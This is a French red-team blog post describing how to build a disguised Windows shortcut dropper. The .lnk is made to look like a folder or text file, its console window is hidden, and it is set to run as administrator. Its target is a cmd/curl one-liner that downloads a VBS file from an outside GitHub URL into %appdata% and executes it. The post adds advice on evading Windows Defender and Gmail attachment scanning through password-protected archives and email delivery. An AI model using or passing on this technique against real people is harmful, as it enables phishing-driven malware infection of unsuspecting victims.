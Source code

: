```yaml
---
published: true
layout: post
title: "Exploitation des raccourcis Windows pour exécuter des malwares"
description: "Cet article décrit comment exploiter les raccourcis Windows pour exécuter un malware."
lang: fr_FR
category: redteam,malware,raccourci,dropper
---
```

![Exploitation des raccourcis Windows pour exécuter des malwares](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/illustration.jpg)

Sur le système d'exploitation Windows, un raccourci est un petit fichier (de 1 ko à 2 ko) qui redirige vers un autre fichier.
Ils permettent d'ouvrir un fichier ou exécutable directement, sans avoir à spécifier son chemin.
Par exemple pour ouvrir le fichier *C:\Program Files\Mozilla Firefox\firefox.exe*, il est beaucoup plus rapide de double-cliquer sur un raccourci **Mozilla Firefox.lnk** (.lnk vient de link en anglais) placé sur le bureau que de s'y rendre via l'Explorateur Windows.
Il est possible de **spécifier un ou des arguments aux raccourcis Windows**. Le raccourci étant un fichier, il est également **possible de le compresser dans un ficher .zip**.

Partant de ce postulat, un attaquant pourrait créer un **raccourci malveillant** dans le but d'exécuter un logiciel malveillant sur l'ordinateur de la victime. L'avantage du raccourci est qu'il est **très léger et peut prendre n'importe quelle extension**.

## Exploitation
Pour commencer, un raccourci va être créé qui exécutera un simple `Hello World` en PowerShell. Pour ce faire, il faut simplement mettre en cible l'exécutable commun à tous les PC : `cmd.exe` :

`C:\Windows\System32\cmd.exe /c "powershell -command "[reflection.assembly]::LoadWithPartialName('System.Windows.Forms')|out-null;[windows.forms.messagebox]::Show('Hello World')""`

L'îcone du raccourci est changé pour le faire ressembler à un dossier, l'extension est également supprimée :

[![Raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/hello_world.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/hello_world.PNG)
*Note : J'ai dans ce scénario d'exploitation créé un raccourci sous forme de dossier mais j'aurais très bien pu également créer un fichier .txt avec l'extension de fichier texte. Même si les extensions de fichiers connus sont affichées, l'extension du raccourci malveillant serait .txt*

L'exécution du raccourci donne alors le résultat suivant :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_hello_world.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_hello_world.PNG)

L'étape suivante est maintenant de personnaliser au maximum l'exécution de l'invité de commande. En effet, les options du raccourci permettent de minimiser la fenêtre au lancement, la rendre transparente, définir une taille de fenêtre...

La configuration de la fenêtre est modifiée :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/taille_fenetre.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/taille_fenetre.PNG)

Les couleurs sont modifiées afin de définir le fond et l'écriture en noir, l'opacité à 30% :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/couleurs.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/couleurs.PNG)

La police d'écriture est réduite au maximum :

[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/police_ecriture.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/police_ecriture.PNG)

Enfin, la fonctionnalité la plus intéressante est la possibilité d'exécuter le raccourci (l'invité de commande) en tant qu'**administrateur** :
[![Exécution du raccourci Hello World sous forme de dossier](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/proprietees_avancees.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/proprietees_avancees.PNG)

L'étape suivante est la modification du raccourci pour exécuter un script VBS dont le contenu sera tout simplement un message box pour cet exemple. Je précise que j'exécute un message box car le *dropper* sous forme de raccourci n'a pas pour vocation d'évader l'exécutable malveillant de la détection de l'antivirus mais bien de créer un fichier qui parraît légitime pour exécuter un logiciel malveillant. Le but final est donc l'envoi par mail par exemple pour faire cliquer l'utilisateur.
Voici le contenu du script VBS :

`MsgBox "Je suis un malware écrit en VBS et hébergé sur GitHub"`

L'étape suivante est la création de la charge qui téléchargera le malware VBS ou .exe ou tout autre format. Je précise que j'utilise curl (natif sous Windows 10) et non PowerShell car même dans un raccourci, PowerShell est détecté par Windows Defender.

Autre point important, la cible du raccourci ne doit pas faire plus de 259 caractères. Petite astuce, il est possible d'optimiser le noms des fichiers pour gagner de la place. Il est également possible d'acheter un nom domaine très court et d'héberger le fichier malveillant à la racine.

Voici le contenu de la charge :

`C:\Windows\System32\cmd.exe /c "curl https://raw.githubusercontent.com/CLeBeRFR/a/main/b.vbs -o %appdata%\b.vbs && %appdata%\b.vbs"`

Le raccourci final donc donc :
[![Création charge raccourci malveillant](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/charge_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/charge_malware.PNG)


## Compression du fichier raccourci malveillant
Le fichier doit maintenant être compressé en ligne de commande. Il n'est pas possible de passer par l'interface graphique car le raccourci pointe vers la CMD et 7Zip compressera donc cmd.exe.
[![Compression du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/compression_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/compression_malware.PNG)

## Extraction du malware par la victime
Une fois que le malware est envoyé, lorsque la victime le décompressera, elle obtiendra tout d'abord un vrai dossier :
[![Décompression du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/extraction_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/extraction_malware.PNG)

Une fois entré dans ce dossier, le vrai raccourci malveillant est présent :
[![Ouverture du dossier malveillant](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/ouverture_dossier.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/ouverture_dossier.PNG)

Le malware est alors téléchargé et exécuté :
[![Exécution du malware](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_malware.PNG)](/assets/images/2021-03-17-Creation-dropper-raccourci-malware/execution_malware.PNG)

La victime est alors piégé et la suite dépend du malware exécuté...

Pour terminer, j'ajouterais qu'un attaquant chiffrera probablement le nom des fichiers de l'archive et mettra un mot de passe à l'archive car Gmail par exemple détecte quand même la pièce jointe comme malveillante. Cependant, mettre un mot de passe dans des dossiers envoyés par mail peut paraître légitime pour la victime.
L'archive peut également être envoyée via un service comme [FromSmash](https://fromsmash.com/) ou hebergée sur un site.